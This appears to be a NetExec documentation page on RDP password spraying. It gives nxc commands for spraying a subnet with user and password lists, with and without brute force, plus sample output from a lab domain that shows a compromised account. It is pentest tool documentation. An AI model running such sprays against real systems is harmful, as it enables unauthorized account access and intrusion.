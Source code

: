 ```yaml
---
description: RDP password spraying using NetExec
---
```


# Password spraying

#### Password spraying

```
#~ nxc rdp 192.168.1.0/24 -u user -p password
```

```
$ nxc rdp 192.168.133.157 -u ron -p October2021
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:October2021 
                                                                                                                                                                
$ nxc rdp 192.168.133.157 -u rubeus -p October2021
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!)
```

#### Password spraying (without bruteforce)

```
#~ nxc rdp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
└─$ nxc rdp 192.168.133.157 -u /tmp/users -p passwordfile --no-bruteforce
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:toto 
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\demo:tata
RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!
```

{% hint style="info" %}
By default, nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.
{% endhint %}

